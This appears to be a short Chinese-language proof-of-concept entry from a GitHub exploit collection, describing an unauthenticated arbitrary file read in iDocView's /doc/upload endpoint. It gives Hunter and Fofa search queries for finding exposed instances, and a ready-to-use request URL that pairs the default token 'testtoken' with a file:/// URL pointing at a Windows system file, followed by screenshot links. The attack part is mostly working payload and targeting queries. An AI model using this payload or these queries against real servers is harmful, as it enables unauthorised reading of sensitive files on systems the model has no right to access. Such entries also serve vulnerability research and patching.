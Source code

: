 ## iDocView upload接口任意文件读取
 iDocView是一个在线文档预览系统 /doc/upload 接口处存在任意文件读取漏洞，未授权的攻击者可以利用此接口并携带默认token读取服务器敏感文件信息，使系统处于极度不安全的状态。 

## 资产测绘
```
Hunter语法：
app.name="I Doc View"
Fofa语法：
title="I Doc View"
```

## poc
```
http://xxxxxx/doc/upload?token=testtoken&url=file:///C:/windows/win.ini&name=test.txt
```
![image](https://github.com/wy876/POC/assets/139549762/01f5a3a7-9cd3-45bc-beb0-5cd6ab800171)

![image](https://github.com/wy876/POC/assets/139549762/0e549cdd-9c98-41b5-874d-8a159cf3db19)
